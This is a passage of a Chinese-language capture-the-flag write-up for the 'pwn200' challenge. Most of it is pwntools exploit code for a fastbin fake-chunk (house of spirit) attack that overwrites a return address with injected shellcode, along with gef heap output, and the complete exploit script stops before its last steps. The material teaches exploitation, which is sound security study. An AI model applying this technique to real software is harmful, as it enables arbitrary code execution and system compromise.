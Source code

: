 ```
p.recvuntil("give me your id")
p.sendline("32") # next size
p.recvuntil("give me money")
fake_chunk=shellcode_addr-0x40
p.sendline(p64(0)*5+p64(0x41)+p64(0)*1+p64(fake_chunk)) #布置fake chunk

p.sendline("2") #free(ptr)
```

调用free之后，我们成功将栈中的fake chunk并入fastbin。

```
gef➤  heap bins fast 
─────────────────────[ Fastbins for arena 0x7fc301e43b20 ]─────────────────────
Fastbin[0] 0x00
Fastbin[1] 0x00
Fastbin[2]  →   FreeChunk(addr=0x7ffe5ce04cb0,size=0x40)  
Fastbin[3] 0x00
Fastbin[4] 0x00
Fastbin[5] 0x00
Fastbin[6] 0x00
Fastbin[7] 0x00
Fastbin[8] 0x00
Fastbin[9] 0x00
```

之后的操作只需要再申请回来，就能修改sub_400A29的EIP，修改EIP为shellcode。只需要check_out，退出栈的时候就会触发shellcode。

```
p.sendline("1") # malloc(0x38)
p.recvuntil("your choice : how long?")
p.sendline("50")
p.recvuntil("give me more money :")
p.sendline(p64(0)*3+p64(shellcode_addr)) # overflow EIP

p.sendline("3") #break
```

完整的Exp

```
#! /usr/bin/python
from pwn import *

p=process("./pwn200")
#context.log_level='Debug'
#gdb.attach(p,"b *0x400a8e")
shellcode=asm(shellcraft.amd64.linux.sh(), arch = 'amd64')

p.recvuntil("who are u?n")
p.send(shellcode.ljust(48))
p.recvuntil(shellcode.ljust(48))
shellcode_addr=u64(p.recv(6).ljust(8,"x00"))-0x50
print "Shellcode address="+hex(shellcode_addr)

p.recvuntil("give me your id")
p.sendline("32")
p.recvuntil("give me money")
fake_chunk=shellcode_addr-0x40
p.sendline(p64(0)*5+p64(0x41)+p64(0)*1+p64(fake_chunk))

p.sendline("2")

p.sendline("1")
p.recvuntil("your choice : how long?")
p.sendline("50")
p.recvuntil("give me more money :")
```